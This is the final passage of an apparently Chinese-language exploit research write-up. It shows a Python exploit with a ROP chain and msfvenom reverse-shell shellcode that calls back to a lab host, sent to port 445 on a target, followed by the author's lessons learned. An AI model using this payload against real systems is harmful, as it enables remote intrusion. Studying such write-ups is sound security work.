 ```python
rop += p32(0x90909090) # edx -> junk
rop += p32(0x90909090) # ecx -> junk
rop += p32(0x080778e0) # addr for shellcode in heap

end = "\x00"

# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.56.103 LPORT=4444 -f python -v shellcode
shellcode =  ""
shellcode += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0"
shellcode += "\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9"
shellcode += "\x68\xc0\xa8\x38\x67\x68\x02\x00\x11\x5c\x89\xe1"
shellcode += "\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52"
shellcode += "\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
shellcode += "\x52\x53\x89\xe1\xb0\x0b\xcd\x80"

shellcode += "\x90" * (120+40-len(shellcode))

exploit = header + padding + rop + end + shellcode

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.56.102', 445))
s.sendall(exploit)
s.close()
```

![][18]

# 0x04 总结反思

1. 调试有方法：在根据crash定位问题点，和判断crash的可利用性时，通常考察的是调试的技巧和思路，需要增强相关的系统知识才能更高效。
2. 利用与逆向：在定位至漏洞点并确定利用方案后，虽然逆向必不可少但也不能太钻牛角尖，忽视了漏洞利用的最终目的。
3. 利用精简化：本文的利用还是靠着固定堆地址，程序中应该还有一个固定堆地址是可利用的，但应该还有堆喷和上下文相关的更加精简优雅的利用方式，感兴趣可以探究下。
4. 深入实地里：漏洞看起来简单实践起来终归是能学到东西的，脚踏实地的话，RouterOS的[这个](https://blog.seekintoo.com/chimay-red.html)整数溢出的利用还是很有意思的。

[1]: https://wx1.sinaimg.cn/large/ee2fecafgy1g2n39kpnpwj20nb0cimyw.jpg
[2]: https://wx4.sinaimg.cn/large/ee2fecafgy1g2n39l5jthj20h20aymxf.jpg
[3]: https://wx2.sinaimg.cn/large/ee2fecafgy1g2n39llmtwj20k3077mxf.jpg
[4]: https://wx1.sinaimg.cn/large/ee2fecafgy1g2n39m173qj20lg07lgm8.jpg
[5]: https://wx3.sinaimg.cn/large/ee2fecafgy1g2n39mq2zyj20i00ai0t9.jpg
[6]: https://wx3.sinaimg.cn/large/ee2fecafgy1g2n39n5ubaj20q708fwet.jpg
[7]: https://wx4.sinaimg.cn/large/ee2fecafgy1g2n39nrfm3j20qk0e0mzt.jpg
[8]: https://wx4.sinaimg.cn/large/ee2fecafgy1g2n39oadimj20qo0azq4c.jpg
[9]: https://wx1.sinaimg.cn/large/ee2fecafgy1g2n39ov8bsj20ro0f9tan.jpg
[10]: https://wx3.sinaimg.cn/large/ee2fecafgy1g2n39pdg0zj20lb0eg40s.jpg
[11]: https://wx1.sinaimg.cn/large/ee2fecafgy1g2n39pujybj20ej0edwen.jpg
[12]: https://wx3.sinaimg.cn/large/ee2fecafgy1g2n39q9rhgj20kd09maaf.jpg
[13]: https://wx3.sinaimg.cn/large/ee2fecafgy1g2n39rlh50j20t70czq50.jpg
[14]: https://wx4.sinaimg.cn/large/ee2fecafgy1g2n39qxfblj20qu0fijtw.jpg
[15]: https://wx4.sinaimg.cn/large/ee2fecafgy1g2n39s0y6vj20km0783ys.jpg
[16]: https://wx1.sinaimg.cn/large/ee2fecafgy1g2n39su8kvj20kv0e3dh9.jpg
[17]: https://wx3.sinaimg.cn/large/ee2fecafgy1g2n39sees0j20fa04odfx.jpg
[18]: https://wx3.sinaimg.cn/large/ee2fecafgy1g2n39ta4hnj20kc04374o.jpg
